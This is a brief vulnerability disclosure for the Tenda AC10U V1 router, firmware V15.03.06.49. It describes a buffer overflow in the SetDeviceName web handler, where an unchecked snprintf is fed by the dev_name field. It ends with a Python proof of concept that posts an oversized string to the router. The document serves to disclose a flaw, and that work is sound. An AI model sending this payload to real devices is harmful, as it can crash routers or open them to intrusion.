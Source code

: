 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](11.png)

get value from devName ,send to set_device_name

![](12.png)

and dont send the mac ,we can get into else

finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetDeviceName"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
